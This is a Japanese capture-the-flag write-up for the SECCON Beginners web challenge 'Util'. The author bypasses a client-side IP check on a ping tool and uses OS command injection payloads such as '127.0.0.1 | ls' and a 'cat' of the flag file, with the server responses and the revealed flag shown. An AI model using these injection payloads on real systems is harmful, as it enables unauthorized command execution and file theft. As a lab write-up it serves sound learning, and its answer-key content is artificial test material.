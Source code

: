 # [WEB] Util 54pts
ctf4b networks社のネットワーク製品にはとっても便利な機能があるみたいです! でも便利すぎて不安かも...?

(注意) SECCON Beginners運営が管理しているサーバー以外への攻撃を防ぐために外部への接続が制限されています。

https://util.quals.beginners.seccon.jp/

# Solution
Ping check と書かれたサイト。IPアドレスと書かれているので、試しに `127.0.0.1` を送信してみる。
![Util1](images/Util1.png)
pingコマンドを動かしているっぽい。ので、OSコマンドインジェクションが可能と推測。`127.0.0.1 | ls` を試してみる。`Invalid IP address` と表示された。
ソースコードを確認すると、JavaScriptで無効な入力かどうか判別する処理を行なっている事がわかる。
```JavaScript
    function send() {
      var address = document.getElementById("addressTextField").value;

      if (/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(address)) {
        var json = {};
        json.address = address

        var xhr = new XMLHttpRequest();
        xhr.open("POST", "/util/ping");
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.send(JSON.stringify(json));

        document.getElementById("notify").innerHTML = "<p>sending...</p>";

        xhr.onload = function () {
          if (xhr.status != 200) {
            document.getElementById("notify").innerHTML =
              "<p>Request Error : " + xhr.response + "</p>";
          } else {
            document.getElementById("notify").innerHTML =
              "<pre><code>" + JSON.parse(xhr.response).result.replaceAll("\n", "<br />") + "</code></pre>";
          }
        };
      } else {
        document.getElementById("notify").innerHTML = "<p>Invalid IP address</p>";
      }
    }

    var init = function () {
      var btn = document.getElementById("submit");
      var popup = function () {
        send();
      };
      btn.addEventListener("click", popup, false);
    };

    window.addEventListener("load", init, false);

```
BurpSuite で 内容を書き換えてみる。
### Request
```
{"address":"127.0.0.1 | ls"}
```
### Response
```
{"result":"api\npages\n"}
```
lsの結果が表示された。\
ここからソースコードを読んでフラグに関係した場所を探していくと、Dockerfileにそれらしきものが書かれていることに気づく。
### Dockerfile
```
~~~

RUN echo "ctf4b{xxxxxxxxxxxxxxxxxx}" > /flag_$(cat /dev/urandom | tr -dc "a-zA-Z0-9" | fold -w 16 | head -n 1).txt

~~~
```

`flag_xxxx.txt` を探す。
### Request
```
{"address":"127.0.0.1 | (cd .. && ls)"}
```
### Response
```
{"result":"app\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"}
```

`flag_A74FIBkN9sELAjOc.txt` を発見。catコマンドで表示させる。
### Request
```
{"address":"127.0.0.1 | cat ../flag_A74FIBkN9sELAjOc.txt"}
```
### Response
```
{"result":"ctf4b{al1_0vers_4re_i1l}\n"}
```

終了。